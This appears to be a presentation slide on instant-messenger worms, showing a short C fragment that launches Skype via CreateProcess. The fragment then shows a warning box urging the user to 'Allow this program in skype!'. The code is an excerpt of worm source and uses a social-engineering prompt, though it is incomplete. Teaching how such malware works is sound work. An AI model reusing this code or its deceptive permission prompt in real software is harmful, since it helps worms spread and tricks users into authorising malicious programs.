

IM Worms-Launch Skype
		memset(&inf_prog,0,sizeof(STARTUPINFO));
	                memset(&info_pr,0,sizeof(PROCESS_INFORMATION));

	                inf_prog.cb = sizeof(STARTUPINFO);
                                inf_prog.dwFlags = STARTF_USESHOWWINDOW;
                                inf_prog.wShowWindow = SW_SHOW;

		if(CreateProcess(NULL,skype_path,NULL,NULL,FALSE,CREATE_NEW_CONSOLE,NULL,
			NULL,&inf_prog,&info_pr))
		{
			MessageBox(NULL,"Allow this program in skype!","Warning!"
				,MB_OK|MB_ICONWARNING);
		}

		else
		{
			ERROR
		}
}